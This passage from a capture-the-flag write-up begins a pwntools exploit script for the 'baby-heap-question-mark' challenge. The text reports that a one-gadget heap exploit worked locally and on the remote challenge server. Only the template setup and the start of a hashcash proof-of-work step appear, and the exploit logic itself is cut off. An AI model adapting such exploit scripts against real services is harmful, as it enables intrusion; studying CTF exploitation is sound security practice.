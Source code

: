 We tested 3-4 one gadgets and got a win in local (reproduced from remote)
environment and then it also worked on remote.

```py  
#!/usr/bin/env python3  
# -*- coding: utf-8 -*-  
# This exploit template was generated via:  
# $ pwn template'--host=bhqm.chal.pwni.ng''--port=1337' ./baby-heap-question-
mark.exe  
from pwn import *  
from binascii import hexlify

# Set up pwntools for the correct architecture  
context.update(arch='i386')  
exe ='./baby-heap-question-mark.exe'

context.newline ='\r\n'

# Many built-in settings can be controlled on the command-line and show up  
# in "args".  For example, to dump all data sent/received, and disable ASLR  
# for all created processes...  
# ./exploit.py DEBUG NOASLR  
# ./exploit.py GDB HOST=example.com PORT=4141  
host = args.HOST or 'bhqm.chal.pwni.ng'  
port = int(args.PORT or 1337)

def start_local(argv=[], *a, **kw):  
   '''Execute the target binary locally'''  
   if args.GDB:  
       return gdb.debug(['wine', exe] + argv, gdbscript=gdbscript, *a, **kw)  
   else:  
       return process(['wine', exe] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):  
   '''Connect to the process on the remote host'''  
   io = connect(host, port)  
   if args.GDB:  
       gdb.attach(io, gdbscript=gdbscript)  
   return io

def start(argv=[], *a, **kw):  
   '''Start the exploit against the target.'''  
   if args.LOCAL:  
       return start_local(argv, *a, **kw)  
   else:  
       return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging  
# GDB will be launched if the exploit is run via e.g.  
# ./exploit.py GDB  
gdbscript ='''  
continue  
'''.format(**locals())

#===========================================================  
#                    EXPLOIT GOES HERE  
#===========================================================

io = start()

if args.REMOTE and not args.HOST:  
   context.newline = b'\n'  
   hashcash = io.recvuntil(b'\n', drop=True)  
   assert hashcash.startswith(b'hashcash -qmb24 ')  
```